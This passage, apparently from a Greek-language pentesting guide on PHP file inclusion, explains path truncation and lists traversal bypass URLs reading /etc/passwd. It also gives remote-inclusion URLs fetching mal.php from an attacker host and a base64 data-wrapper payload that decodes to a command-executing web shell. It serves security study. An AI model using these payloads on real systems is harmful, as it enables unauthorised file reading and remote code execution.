 * **Χρησιμοποιώντας Τμήματα Τελείας και Πρόσθετους Χαρακτήρες**: Ακολουθίες διασχίσεων (`../`) σε συνδυασμό με επιπλέον τμήματα τελείας και χαρακτήρες μπορούν να χρησιμοποιηθούν για να πλοηγηθούν στο σύστημα αρχείων, αγνοώντας αποτελεσματικά τις προσαρτημένες συμβολοσειρές από τον διακομιστή.
* **Καθορισμός του Απαιτούμενου Αριθμού Διασχίσεων**: Μέσω δοκιμών και λαθών, μπορεί κανείς να βρει τον ακριβή αριθμό των ακολουθιών `../` που απαιτούνται για να πλοηγηθεί στην ριζική καταχώρηση και στη συνέχεια στο `/etc/passwd`, διασφαλίζοντας ότι οποιεσδήποτε προσαρτημένες συμβολοσειρές (όπως `.php`) εξουδετερώνονται αλλά η επιθυμητή διαδρομή (`/etc/passwd`) παραμένει ανέπαφη.
* **Ξεκινώντας με μια Ψεύτικη Καταχώρηση**: Είναι κοινή πρακτική να ξεκινά η διαδρομή με μια ανύπαρκτη καταχώρηση (όπως `a/`). Αυτή η τεχνική χρησιμοποιείται ως προληπτικό μέτρο ή για να ικανοποιήσει τις απαιτήσεις της λογικής ανάλυσης διαδρομής του διακομιστή.

Όταν χρησιμοποιούνται τεχνικές περικοπής διαδρομής, είναι κρίσιμο να κατανοηθεί η συμπεριφορά ανάλυσης διαδρομής του διακομιστή και η δομή του συστήματος αρχείων. Κάθε σενάριο μπορεί να απαιτεί διαφορετική προσέγγιση, και οι δοκιμές είναι συχνά απαραίτητες για να βρεθεί η πιο αποτελεσματική μέθοδος.

**Αυτή η ευπάθεια διορθώθηκε στο PHP 5.3.**

### **Τεχνάσματα παράκαμψης φίλτρων**
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
## Remote File Inclusion

Στο php αυτό είναι απενεργοποιημένο από προεπιλογή γιατί **`allow_url_include`** είναι **Απενεργοποιημένο.** Πρέπει να είναι **Ενεργοποιημένο** για να λειτουργήσει, και σε αυτή την περίπτωση θα μπορούσατε να συμπεριλάβετε ένα αρχείο PHP από τον διακομιστή σας και να αποκτήσετε RCE:
```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
Αν για κάποιο λόγο **`allow_url_include`** είναι **On**, αλλά το PHP **φιλτράρει** την πρόσβαση σε εξωτερικές ιστοσελίδες, [σύμφωνα με αυτή την ανάρτηση](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), θα μπορούσατε να χρησιμοποιήσετε για παράδειγμα το πρωτόκολλο δεδομένων με base64 για να αποκωδικοποιήσετε έναν κωδικό PHP b64 και να αποκτήσετε RCE:

{% code overflow="wrap" %}
```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```
{% endcode %}

{% hint style="info" %}
Στον προηγούμενο κώδικα, το τελικό `+.txt` προστέθηκε επειδή ο επιτιθέμενος χρειαζόταν μια συμβολοσειρά που να τελειώνει σε `.txt`, έτσι ώστε η συμβολοσειρά να τελειώνει με αυτό και μετά την αποκωδικοποίηση b64, αυτό το μέρος θα επιστρέψει απλώς σκουπίδια και ο πραγματικός κώδικας PHP θα συμπεριληφθεί (και επομένως, θα εκτελεστεί).
{% endhint %}
